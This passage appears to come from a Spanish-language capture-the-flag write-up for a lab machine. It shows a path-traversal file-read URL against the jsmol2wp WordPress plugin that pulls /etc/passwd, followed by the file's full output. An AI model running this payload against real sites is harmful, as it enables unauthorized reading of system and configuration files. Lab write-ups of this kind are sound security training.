 ```

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

Por lo que si intentamos leer el archivo `passwd` veremos que tambien nos deja:

```
URL = http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../etc/passwd
```

Info:

```
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```
